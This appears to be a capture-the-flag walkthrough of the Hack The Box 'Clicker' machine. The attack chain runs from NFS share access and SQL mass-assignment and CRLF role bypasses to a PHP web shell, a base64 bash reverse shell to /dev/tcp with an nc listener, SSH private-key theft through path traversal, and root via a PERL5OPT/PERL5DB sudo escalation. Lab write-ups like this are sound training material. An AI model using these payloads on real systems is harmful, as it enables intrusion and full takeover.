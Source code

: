 # Clicker


![Homepage](/HTB/Clicker/Screenshots/2023-12-19-10-58-00.png)

```bash
echo "<IP> clicker.htb" |sudo tee -a /etc/hosts
```

```bash
export target="<IP>"
nmap -sC -sV -p- -vv -oN nmap/full $target
```

![Nmap](/HTB/Clicker/Screenshots/2023-12-19-11-27-30.png)

```rpcbind reveals that nfs is available and supporting older versions.```

![rpcinfo](/HTB/Clicker/Screenshots/2023-12-19-11-13-47.png)

```Knowing this, mount the share```

![showmounts](/HTB/Clicker/Screenshots/2023-12-19-11-16-36.png)

```bash
mkdir mnt
sudo mount -o nolock $target:/mnt/backups mnt
```

![mnt/backups contents](/HTB/Clicker/Screenshots/2023-12-19-11-35-38.png)

```Move and unzip the contents of the backups and unmount as it's served it's purpose.```

```bash
cp clicker.htb_backups.zip ../
unzip ../clicker.htb_backups.zip
sudo umount $target:/mnt/backups
```

```We now posess the source code which will help in finding any vulnerabilities.```

![role](/HTB/Clicker/Screenshots/2023-12-19-11-42-05.png)

```We see that role as a URL argument is blacklisted as well as only the clicks and level are session updated. So in the case where we manage to update the role we'd need to refresh the session values by reloging since all the values get updated on authentication:```

![authentication.php](/HTB/Clicker/Screenshots/2023-12-19-11-44-47.png)

```To access `admin.php` we'll need to set our role to admin```

![admin.php](/HTB/Clicker/Screenshots/2023-12-19-11-45-44.png)

```latex
There's two ways to achieve that:
- sql mass assignment
- CRLF vulnerability
```

[ABOUT: Mass assignment](https://learn.snyk.io/lesson/mass-assignment/)

[ABOUT: CRLF](https://owasp.org/www-community/vulnerabilities/CRLF_Injection)

### sql mass assignment
    
    role%3d'Admin',clicks=2000
    By URL encoding the `=` we can insert more than one pair of values by seperating them with a comma.

![mass assign](/HTB/Clicker/Screenshots/2023-12-19-11-54-07.png)

### CRLF vulnerability 

    By adding %0a to `role` we can bypass the blacklist

![CRLF](/HTB/Clicker/Screenshots/2023-12-19-11-49-12.png)

    Now if we relog we should be able to access the admin panel

![Administration](/HTB/Clicker/Screenshots/2023-12-19-11-59-17.png)

![Administration content](/HTB/Clicker/Screenshots/2023-12-19-11-59-50.png)

![exports](/HTB/Clicker/Screenshots/2023-12-19-12-02-25.png)

![php extension specification in data](/HTB/Clicker/Screenshots/2023-12-19-12-33-07.png)

![exporting php extension](/HTB/Clicker/Screenshots/2023-12-19-12-07-50.png)

    As we can manipulate the extension of the exported file, we can change it to a php extension, and it's retrieving the nickname value, so we might try injecting a malicious payload and executing it through the export functionality.

![php payload](/HTB/Clicker/Screenshots/2023-12-19-12-23-08.png)

    <?='$_GET[0]';?>

![command execution](/HTB/Clicker/Screenshots/2023-12-19-12-23-28.png)

    Now that we've tested that it's possible, time to get a reverseshell

```bash
echo "sh -i >& /dev/tcp/<IP>/<PORT> 0>&1" | base64
nc -lvnp <PORT>
```

    send the payload:
    echo <your base64 string> | base64 -d | bash

![revshell](/HTB/Clicker/Screenshots/2023-12-19-12-27-25.png)

## Escalation to jack user

![whoami](/HTB/Clicker/Screenshots/2023-12-19-13-00-40.png)

```bash
find / -type f -perm /u=s 2>dev/null
```

![execute_query u=s](/HTB/Clicker/Screenshots/2023-12-19-13-01-48.png)

![perms for /opt/manage](/HTB/Clicker/Screenshots/2023-12-19-13-02-34.png)

![Readme.txt](/HTB/Clicker/Screenshots/2023-12-19-13-02-55.png)

    by running strace on execute_query 1 we can see a glimpse on what's going on behind the scenes.

![Strace for execute_query 1](/HTB/Clicker/Screenshots/2023-12-19-13-04-31.png)

    we see that all these scripts are run from /home/jack/query/. Which means each number represents a file within that directory, so what happens when we provide a number out of the provided ones? - It doesn't find anything since nothing's specified. What if we specify a file ourselves? We already know there's an create.sql file within that directory let's try that.

```bash
./execute_query 5 create.sql
```

![arbitrary file exec](/HTB/Clicker/Screenshots/2023-12-19-13-10-24.png)

    It executes the same file as option 1 would. Let's try directory traversal.

![/etc/passwd/](/HTB/Clicker/Screenshots/2023-12-19-13-11-43.png)

    Works like a charm, however we need to be precise with the depth we go to. If we can read files we can surely read the id_rsa, since we caw that jack has ssh access within /etc/passwd aswell as we know port 22 is open.

![id_rsa](/HTB/Clicker/Screenshots/2023-12-19-13-13-51.png)

    We'll copy it to our system and try to login, however if we're keen eyes we can see a minor issue with the file itself, it's formatting is busted. There needs to be 5 "-" on each side for it to be valid. 

```bash
ssh jack@10.10.11.232 -i id_rsa
```

![Jack](/HTB/Clicker/Screenshots/2023-12-19-13-17-21.png)

#### Flag

![User flag](/HTB/Clicker/Screenshots/2023-12-19-13-19-41.png)

### Escalation to root

    Check for sudo -l to list all sudo priviledges 

![sudo -l](/HTB/Clicker/Screenshots/2023-12-19-13-20-31.png)

![monitor.sh](/HTB/Clicker/Screenshots/2023-12-19-13-26-41.png)

    We can set ENV variables when running sudo, and the script unsets perl libraries which jumps out as weird. Innitially I thought of PATH exploitation but that wouldn't work as the script resets the PATH variable.
    So I was hung up on perl variables, xml_pp runs on perl, so I did some investigating and found a perl_start up local priv exploit:

[Exim - 'perl_startup' Local Privilege Escalation](https://www.exploit-db.com/exploits/39702)

    Essentially we're only interested in the payload:

```perl
cmd_exec(%Q{PERL5OPT=-d PERL5DB='exec "#{c}"' exim -ps 2>&-})
```

    Which essentally sets it to debug mode and runs a command, if we modify it to copy and set a SUID on bash we could get root.

```bash
mkdir -p /tmp/moon
sudo PERL5OPT=-d PERL5DB='exec "cp /bin/bash /tmp/moon/rootbash && chmod u+s /tmp/moon/rootbash"' /opt/monitor.sh
/tmp/moon/rootbash -p
```

It's better to make a seperate rootbash rather than change the original bash to not disrupt anything and to make cleanup easy.

![euid=root](/HTB/Clicker/Screenshots/2023-12-19-13-41-23.png)

#### flag

![rootflag](/HTB/Clicker/Screenshots/2023-12-19-13-42-16.png)

![Pwnd](/HTB/Clicker/Screenshots/2023-12-19-13-45-08.png)
